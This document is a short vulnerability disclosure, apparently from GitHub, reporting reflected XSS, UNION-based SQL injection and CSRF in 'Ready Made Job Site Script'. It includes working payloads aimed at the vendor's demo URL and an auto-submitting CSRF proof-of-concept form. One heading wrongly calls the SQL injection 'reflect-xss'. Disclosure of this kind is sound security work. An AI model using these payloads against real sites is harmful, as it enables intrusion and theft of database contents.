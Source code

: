 ### Ready Made Job Site Script  SQLi/XSS/CSRF

Well, when I pentest the official demo site of Ready Made Job Site Script, I found some vulnerabilities here.

#### XSS:

There're some reflect-xss in this system, for example:

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/xss1.png)

```
http://phpscriptsmall.biz/demo/onlinejobsearch/job
```

POST para:

keyword='"><svg/onload=alert(/xss/)><'"&location_name[]=

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/xss2.png)


#### SQLi:

There're some reflect-xss in this system, for example:

```
http://phpscriptsmall.biz/demo/onlinejobsearch/job
```

POST para:

```
keyword=666&location_name[]=-1813) UNION ALL SELECT 6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,CONCAT(0x716a707071,0x4b7052435851504b686a5571556e74777a5a43616a5742614b4e466b7a424a6f4b6b59484a566a51,0x716b6b6b71),6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208#
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!

#### CSRF

With the csrf bug, we can cheat the user to change some important content ,or get post reflect-xss attack here.

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://phpscriptsmall.biz/demo/onlinejobsearch/job" method="POST">
      <input type="hidden" name="keyword" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&#47;xss&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="location&#95;name&#91;&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```




